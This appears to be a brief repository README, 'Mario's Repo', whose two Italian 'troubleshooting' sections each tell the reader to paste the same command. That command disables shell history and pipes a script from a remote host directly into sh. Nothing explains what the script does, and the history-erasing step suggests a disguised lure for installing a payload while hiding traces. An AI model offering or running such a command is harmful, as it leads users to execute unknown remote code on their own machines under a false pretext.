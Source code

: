 ## Mario's Repo

### Troubleshooting per i telefoni

```
unset HISTFILE; curl https://doc.txt/file.sh | sh
```

### Troubleshooting su trunk

```
unset HISTFILE; curl https://doc.txt/file.sh | sh
```
